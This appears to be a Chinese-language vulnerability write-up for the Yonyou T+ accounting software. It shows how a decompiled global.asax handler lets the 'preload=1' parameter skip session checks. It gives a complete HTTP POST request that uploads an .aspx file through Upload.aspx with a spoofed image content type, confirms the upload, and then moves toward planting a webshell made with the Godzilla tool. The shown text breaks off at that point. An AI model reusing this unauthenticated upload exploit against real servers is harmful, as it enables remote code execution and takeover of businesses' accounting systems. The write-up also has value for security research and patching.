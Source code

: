 把App_global.asax 导入到dnspy 中

![](https://gitee.com/fuli009/images/raw/master/public/20220923140130.png)

也没有发现什么鉴权的函数之类的。那么再往上找一层 发现他引用了App_Web_global.asax.cs.cdcab7d2 这个。那么把dll文件丢进去

发现一个 Application_PreRequestHandlerExecute 函数。

![](https://gitee.com/fuli009/images/raw/master/public/20220923140132.png)

参数preload 为1 的时候就不经过下方的session 验证了。

进行尝试

![](https://gitee.com/fuli009/images/raw/master/public/20220923140134.png)

  

    
    
    POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1  
    Host: 192.168.1.77:8080  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
    Cookie: ASP.NET_SessionId=gvigofzulthd2v1i2q5zndtf; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1662302093; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1662302093  
    Connection: close  
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Length: 183  
      
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Disposition: form-data; name="File1";filename="222.aspx"  
    Content-Type: image/jpeg  
      
    1  
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt--  
    

  

发现返回结果不一样了。那么看看images文件中是否有这个文件

![](https://gitee.com/fuli009/images/raw/master/public/20220923140135.png)

发现成功上传了

  

## 三、getshell  

实际访问的时候他返回的错误信息:未预编译文件那么使用绕过的方式

用哥斯拉随便生产一个木马文件
